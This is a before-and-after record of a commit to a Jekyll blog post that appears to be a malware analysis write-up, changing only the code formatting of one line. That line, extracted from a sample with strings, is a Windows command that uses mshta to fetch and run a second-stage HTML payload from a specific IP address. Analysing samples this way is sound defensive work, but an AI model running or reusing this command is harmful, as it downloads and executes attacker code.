

Before and after one commit to seizethecheese/seizethecheese.github.io, a Jekyll site: the page built from _posts/2022-01-29-post.md, in a window 1280 px wide and 900 px high, scrolled down 885 px, cut to the strip 0-603 px from the top of the window. Shown: the whole strip, without its empty margins (300-1249 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced.

Commit message:
Update 2022-01-29-post.md

````diff
--- a/_posts/2022-01-29-post.md
+++ b/_posts/2022-01-29-post.md
@@ -29,7 +29,7 @@ VirusTotal - [https://www.virustotal.com/gui/file/c49da30a5ef994b4388c65f8fd295e
 ### Strings
 I used strings to pull all strings from the sample. One string really stood out and it looked very useful.
 
-`cmd /c set kiki=mshta http://91.240.118.172/mm/nn/se.html & echo %kiki% | cmdB
+``` cmd /c set kiki=mshta http://91.240.118.172/mm/nn/se.html & echo %kiki% | cmdB ```
 
 From here I went out on a limb and guessed this was a second stage and used any.run to pull a copy the html file safely. The any.run analysis where you can download a copy of he.html is here: [https://app.any.run/tasks/b756c3c0-d524-4c6c-95dc-d472c632a26d/](https://app.any.run/tasks/b756c3c0-d524-4c6c-95dc-d472c632a26d/)
 
````
